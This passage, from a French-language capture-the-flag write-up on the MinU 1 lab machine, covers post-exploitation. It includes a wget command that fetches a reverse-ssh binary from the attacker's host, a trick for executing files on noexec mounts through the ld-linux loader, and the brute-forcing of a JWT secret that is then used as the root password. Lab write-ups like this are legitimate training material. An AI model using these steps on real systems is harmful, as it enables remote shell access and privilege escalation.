 Finalement en téléchargeant dans `/dev/shm` ça fonctionne (indice qui aurait dû me diriger vers un bug de la VM comme on verra plus tard).

Je peux donc rapatrier un `reverse-ssh` de cette façon :

```bash
cd /dev/shm;linux64 wget http://192.168.56.1/rs86
```

Et je préfixe `chmod` par `linux64` de la même façon pour rendre le fichier exécutable.

Petite astuce au passage : si le fichier est dans un point de montage n'autorisant pas l'exécution, on peut obtenir le path du linker en appelant `ldd` sur un binaire quelconque :

```bash
cd /bin;linux64 ldd tar
```

On voit ici que le path est `/lib/ld-linux.so.2` :

```
        linux-gate.so.1 =>  (0xb7f3e000)
        libacl.so.1 => /lib/i386-linux-gnu/libacl.so.1 (0xb7eb5000)
        libselinux.so.1 => /lib/i386-linux-gnu/libselinux.so.1 (0xb7e89000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7cb3000)
        libattr.so.1 => /lib/i386-linux-gnu/libattr.so.1 (0xb7cad000)
        libpcre.so.3 => /lib/i386-linux-gnu/libpcre.so.3 (0xb7c36000)
        libdl.so.2 => /lib/i386-linux-gnu/libdl.so.2 (0xb7c31000)
        /lib/ld-linux.so.2 (0xb7f40000)
        libpthread.so.0 => /lib/i386-linux-gnu/libpthread.so.0 (0xb7c12000)
```

On peut alors appeler `/lib/ld-linux.so.2 mon_executable` qui exécutera `mon_executable` même s'il n'a pas les permissions requises.

Après le `chmod` j'étais en mesure d'exécuter `reverse-ssh` qui lançait un serveur SSH sur le port 31337.

## Craque trop

D'après [Brute Force - CheatSheet - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force#jwt) il y a plusieurs moyens de cracker un token JWT.

Dans notre cas, ce projet fonctionne très bien : [GitHub - brendan-rius/c-jwt-cracker: JWT brute force cracker written in C](https://github.com/brendan-rius/c-jwt-cracker)

```console
$ ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.pn55j1CFpcLjvReaqyJr0BPEMYUsBdoDxEPo6Ft9cwg
Secret is "mlnV1"
```

Le mot de passe obtenu permet de passer `root` via `su` :

```console
root@MinU:~# cat flag.txt 
  __  __ _       _    _      __
 |  \/  (_)     | |  | |    /_ |
 | \  / |_ _ __ | |  | |_   _| |
 | |\/| | | '_ \| |  | \ \ / / |
 | |  | | | | | | |__| |\ V /| |
 |_|  |_|_|_| |_|\____/  \_/ |_|


# You got r00t!

flag{c89031ac1b40954bb9a0589adcb6d174}

# You probably know this by now but the webserver on this challenge is
# protected by mod_security and the owasp crs 3.0 project on paranoia level 3.
# The webpage is so poorly coded that even this configuration can be bypassed
```